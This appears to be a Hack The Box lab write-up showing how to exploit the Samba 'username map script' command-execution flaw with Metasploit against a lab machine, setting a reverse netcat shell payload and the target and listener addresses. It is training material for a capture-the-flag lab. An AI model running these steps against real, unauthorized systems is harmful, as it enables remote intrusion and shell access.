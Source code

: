 ```

Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/samba/usermap_script
```
sure enough as exploitdb showed us earlier its right there
we need to select that particular module and then see  what options are available for this module 
We select the module by typing in use 0 and type in options to see what we need to configure 
```
msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(multi/samba/usermap_script) > options

Module options (exploit/multi/samba/usermap_script):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    139              yes       The target port (TCP)


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.64.139   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.
```
our local ip or lhost is our vpn ip address so that needs to be configured to our vpn ip address
our remote host (rhosts) need to be changed to attack the virtual hackthebox machine and we will keep the remote port (rport) the same  because this exploit exploits samba whos default port is 139
and our victim Hackthebox machine is running samba on that port as well so no  change is needed.
```
msf6 exploit(multi/samba/usermap_script) > set lhost 10.10.14.64
lhost => 10.10.14.64
msf6 exploit(multi/samba/usermap_script) > set rhosts 10.10.10.3
rhosts => 10.10.10.3
```
now that our unique configuration is set up lets run our exploit!!!
```
msf6 exploit(multi/samba/usermap_script) > run
```